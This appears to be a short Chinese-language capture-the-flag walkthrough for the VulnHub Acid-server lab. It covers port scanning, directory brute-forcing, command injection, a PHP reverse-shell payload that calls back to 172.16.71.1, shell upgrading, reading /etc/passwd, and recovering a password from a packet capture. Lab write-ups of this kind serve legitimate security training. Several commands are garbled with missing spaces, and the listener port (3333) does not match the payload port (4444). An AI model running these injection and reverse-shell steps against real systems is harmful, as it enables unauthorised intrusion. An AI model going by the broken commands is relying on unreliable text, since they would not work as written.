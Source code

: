 # VulnHub: Acid-server
- https://www.vulnhub.com/entry/acid-server,125/

## Walkthrough
### Step 1
nmap掃描虛擬機ip及port，發現位於33447/tcp是開啟狀態，service為http
### Step 2
利用DirBuster暴力掃目錄，從cake.php中找出/Magic_Box
掃/Magic_Box，發現command.php
### Step 3
首先ping172.16.71.1;id發現命令成功注入，嘗試獲取shell
監聽3333port
`$ nc -l 3333`
用php反彈shell成功，最後payload:
`172.16.71.1;php-r '$sock=fsockopen("172.16.71.1",4444);exec("/bin/sh-i<&3 >&3 2>&3");'`
### Step 4
發現su指令無法執行，出現錯誤訊息su:must be run from a terminal
用python調用本地shell
`$ python -c 'import pty;pty.spawn("/bin/bash")'`
### Step 5
查找用戶，發現三個可疑帳號acid、saman、root
`$ cat/etc/passwd`
嘗試找尋用戶的可疑文件
`$ find-useracid2>/dev/null`
發現pcapng可疑流量檔案，下載回本地查看
### Step 6
利用wireshark打開hint.pcapng
找到saman密碼1337hax0r
### Step 7
利用find找到flag.txt，成功！
